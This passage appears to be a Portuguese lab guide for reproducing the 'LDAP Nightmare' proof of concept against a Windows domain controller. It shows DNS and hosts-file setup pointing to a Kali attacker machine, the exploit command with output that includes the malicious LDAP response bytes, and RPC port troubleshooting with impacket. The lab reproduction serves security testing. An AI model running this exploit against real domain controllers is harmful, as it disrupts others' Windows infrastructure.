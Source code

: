 ```powershell
Set-DnsClientServerAddress -InterfaceAlias "Ethernet" -ServerAddresses 172.16.0.250
```

<img src="dns.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">

- Você também precisa configurar o IP do seu Kali no arquivo `hosts` do Windows. Você pode incluir manual ou usar o comando:

```powershell
Add-Content -Path "C:\Windows\System32\drivers\etc\hosts" -Value "172.16.0.250 sbattacker"
```

- Depois de configurado faça os testes abaixo:

```powershell
ping sbattacker # Veja se responde ao IP do seu Kali
# Veja se responde ao sbattacker (host configurado no smb do Kali)
nslookup -type=SRV _ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.safebreachlabs.pro 
nslookup -type=SRV _ldap._tcp.dc._msdcs.safebreachlabs.pro 
```

<img src="nslookup.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">

- Se tudo ocorreu certo, seu ambiente está pronto para ser testado:

```bash
# No Kali execute:
python LdapNightmare.py 172.16.0.10 -d safebreachlabs.pro # 172.16.0.10 é o IP do meu DC

OUTPUT
------
[LDAP Nightmare:INFO] - Waiting for udp server to start...
[LDAP Nightmare:INFO] - NetLogon connected
[LDAP Nightmare:INFO] - Calling DsrGetDcNameEx2 now...
[LDAP Nightmare:INFO] - Connected to 172.16.0.10:49664
[LDAP Nightmare:INFO] - Sending DsrGetDcNameEx2 request...
[LDAP Nightmare:INFO] - Received LDAP request from NetLogon ('172.16.0.10', 51740)
[LDAP Nightmare:INFO] - Sending malicious LDAP response packet to ('172.16.0.10', 51740): b'0&\x02\x04\x02\x00\x00\x08e\x1e\n\x01\n\x04\x00\x04\x00\xa3\x15\x04\x13ldap://referral.com'
[LDAP Nightmare:INFO] - Successfuly triggered the vulnerability!
```

### 3.2. Troubleshooting

No Windows Server 2019, existe a possibilidade de, ao executar o PoC, ele falhar e dar um erro de rejeição no _Bind_.

```bash
impacket.dcerpc.v5.rpcrt.DCERPCException: Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint)
```
É provável que o NetLogon esteja sendo executado em outra porta e, para isso você precisa descobrir. Para isso execute o `impacket-rpcdump @192.168.56.10`. Esse é meu IP do meu servidor Windows Server 2019. Verifique a flag `ncacn_ip_tcp` que vem logo após o `ncalrpc:[<id>]`. Geralmente, essa é a porta em uso do RPC no momento e então execute o script novamente: `python LdapNightmare.py 192.168.56.10 -d safebreachlabs.pro -p 49154`. Caso não funcione, liste todas as portas em `ncacn_ip_tcp` e teste cada uma. Irá funcionar.
